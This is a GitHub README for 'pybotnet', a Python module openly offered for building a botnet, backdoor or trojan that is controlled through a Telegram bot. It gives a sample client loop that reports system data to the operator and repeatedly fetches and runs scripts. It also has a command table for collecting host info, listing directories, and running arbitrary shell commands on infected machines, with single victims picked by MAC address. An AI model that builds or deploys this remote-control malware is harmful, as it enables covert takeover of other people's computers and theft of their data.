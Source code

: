 # pybotnet  0.12

A Python module for building [botnet ,backdoor or trojan] with Telegram control panel
- [x] windows
- [x] linux
- [ ] mac :Not tested

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
from pybotnet import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 20

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
*Send this COMMANDs to your api bot in telegram, using the admin account.* \
*If you want the command to run only on one system, write the MAC address of that system first:* \
 `66619484755211 get_info`

COMMAND | Sample | DO THIS | Minimum version required | Works well on: |
--------|--------|---------|--------------------------|----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep \<scconds> \<message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd \<system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in wiindows or `ping google.com` in linux)| 0.07 | windows, linux|
`ls \<route>` | `ls C:\ , ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
